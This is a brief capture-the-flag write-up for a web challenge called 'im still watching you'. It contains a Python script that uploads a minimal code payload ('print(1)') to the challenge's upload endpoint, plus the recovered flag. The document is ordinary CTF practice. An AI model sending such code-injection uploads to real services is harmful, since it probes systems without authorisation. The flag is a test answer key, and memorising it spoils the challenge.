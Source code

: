 ```yaml
---
created: 2024-08-08T08:23
updated: 2024-08-17T20:13
points: 425
---
```


Again, the challenge is kinda wonky.

Same payload as the first ai challenge.

```python
from io import BytesIO
import requests

payload = b"""
print(1)
""".strip()

print(requests.post('https://bugcrowd-im-still-watching-you.chals.io/upload', files={'file1': BytesIO(payload)}).text)
```

```flag
flag{are_you_the_keymaster}
```
